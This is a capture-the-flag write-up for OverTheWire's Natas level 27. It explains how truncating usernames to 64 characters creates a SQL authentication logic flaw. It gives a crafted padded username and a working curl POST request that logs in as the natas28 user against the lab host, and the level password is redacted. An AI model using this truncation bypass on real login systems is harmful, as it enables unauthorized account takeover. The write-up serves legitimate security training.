



# Natas Level 27 → Level 28

## Level Goal / Objective

Find the password for the next level.

🔗 https://overthewire.org/wargames/natas/natas27.html

## Tools You May Need

```text
Browser DevTools
Burp Suite
cURL
```

## Concept Focus

* SQL logic flaw
* Authentication bypass
* Input length truncation

## Approach

### 1. Access the Level

```text
http://natas27.natas.labs.overthewire.org/
```

Authenticate using previous credentials.

---

### 2. Review Source Code

Key observations:

- Usernames and passwords are truncated to **64 characters**
- Input is sanitized using `mysqli_real_escape_string`
- Authentication checks:

```sql
SELECT username FROM users WHERE username='$user' AND password='$password'
```

---

### 3. Identify the Weakness

The logic flaw comes from:

```php
$user = mysqli_real_escape_string($link, substr($usr, 0, 64));
```

This means:

- Only the **first 64 characters** are used in the query
- Anything beyond 64 characters is ignored

---

### 4. Exploit the Logic

We can:

1. Create a new user with a username longer than 64 characters
2. Ensure the first 64 characters match an existing user (`natas28`)
3. Add extra characters beyond 64 to bypass duplicate checks

Example concept:

```text
username = natas28AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
password = test
```

Because:

- `validUser()` checks full string
- `checkCredentials()` uses truncated string

This mismatch allows login as **natas28**

---

### 5. Execute the Attack

Using curl:

```bash
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -H "Authorization: Basic bmF0YX....<USING YOUR AUTH CODE>...c1luZQ==" -d "username=natas28%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00x&password=" http://natas27.natas.labs.overthewire.org/
```

Then login using the crafted username to retrieve stored credentials.

---

## Walkthrough (Screenshots)






---

## Password for Level 28

```text
1JNwQM1O... (redacted)
```

---

## Key Takeaways

* Truncation can break authentication logic
* Inconsistent validation between functions introduces vulnerabilities
* Always apply the same normalization logic across validation and authentication paths
